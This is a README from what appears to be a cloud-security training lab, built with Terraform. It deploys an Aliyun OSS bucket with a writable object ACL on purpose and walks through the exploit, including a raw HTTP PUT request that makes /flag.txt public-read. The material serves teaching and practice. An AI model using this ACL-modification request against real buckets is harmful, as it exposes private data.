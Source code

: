 # Description

English | [中文](./README_CN.md)

This is a script that helps you quickly build ACL read/write scenarios for storage bucket objects 

Although you may not encounter it in a real situation, but have fun!

## Git clone

```bash
cd /TerraformGoat/aliyun/object_acl_writable/ 
```

```bash
terraform init
```

![image-20220425190538237](../../../images/image-20220425190538237.png)

```bash
terraform apply
```

![image-20220425190558881](../../../images/image-20220425190558881.png)

After confirming that there are no problems, type yes and enter to quickly build

![image-20220425190632275](../../../images/image-20220425190632275.png)

Access the /flag.txt of this bucket directly

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

But we can check the ACL permissions of this object via *?acl*

![image-20220425190747906](../../../images/image-20220425190747906.png)

The ACL of the object can then be changed to public-read by the PUT method, and we need to add the *x-oss-object-acl* parameter to the request header

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

Successfully modified the object's ACL, now use the GET method to get

![image-20220425191033750](../../../images/image-20220425191033750.png)

## Destruction Challenge

```bash
terraform destroy
```

Then just type yes and wait for the destruction

![image-20220425191136549](../../../images/image-20220425191136549.png)
